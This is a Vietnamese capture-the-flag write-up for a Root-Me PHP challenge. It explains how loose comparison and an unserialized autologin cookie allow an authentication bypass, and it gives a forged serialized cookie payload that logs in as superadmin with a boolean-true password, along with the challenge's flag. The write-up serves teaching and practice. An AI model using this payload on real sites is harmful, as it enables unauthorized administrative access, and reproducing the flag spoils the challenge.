 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/481d66a5-1e5a-40d8-a5a1-7d6e135d7297)

Xem source code

![image](https://github.com/user-attachments/assets/54195e2b-7509-47b1-9490-8f46787ac6db)

![image](https://github.com/user-attachments/assets/9c192068-4c94-446a-8d9d-71ccbde85e5f)

Đọc source code này ta có thể thấy được 4 điểm chính
+ mật khẩu sẽ được mã hóa bằng sha256 => chuỗi hex
```
if($_POST['login'] && $_POST['password']){
        $data['login'] = $_POST['login'];
        $data['password'] = hash('sha256', $_POST['password']);
    }
```

+ check password đang sử dụng loose comparison . mà theo cái bảng ở README.md thì 1 chuỗi và giá trị true sẽ bằng nhau
=> ta có thể nhập cho password giá trị TRUE để bypass
```
// check password !
    if ($data['password'] == $auth[ $data['login'] ] ) {
        $_SESSION['login'] = $data['login'];
```

nhưng mà vấn đề đến rồi =))) mọi input ở password sẽ được hash.  vậy nên ta có điểm lưu ý số 3 là 

+ khi giá trị autologin === 1 thì hàm serialize($data) sẽ chuyển đổi biến $data thành một chuỗi dạng serialized. Trước đó, biến $data đã được khởi tạo với các giá trị như "login" và "password" 
```
if($_POST['autologin'] === "1"){
            setcookie('autologin', serialize($data));
        }
```
+ để bypass thì ta phải để login = superadmin

```
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
```

![image](https://github.com/user-attachments/assets/590a134d-82ab-45c1-b710-661006e47ea4)

:v đọc tài liệu có gắn link trên rootme ta thấy 1 vector có thể exploit

![image](https://github.com/user-attachments/assets/59af0b98-bd2b-4984-afec-cde2c6e2c9de)

cookie autologin có thể thay đổi nên ta sử dụng payload 
```autologin=a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}```

nhá nhẹ b:1 = TRUE =))) còn lại thì ae tự tìm hiểu thêm nhé

![image](https://github.com/user-attachments/assets/9ca361fc-0f5b-45e6-8d96-17737360fb88)

=> NoUserInputInPHPSerialization!

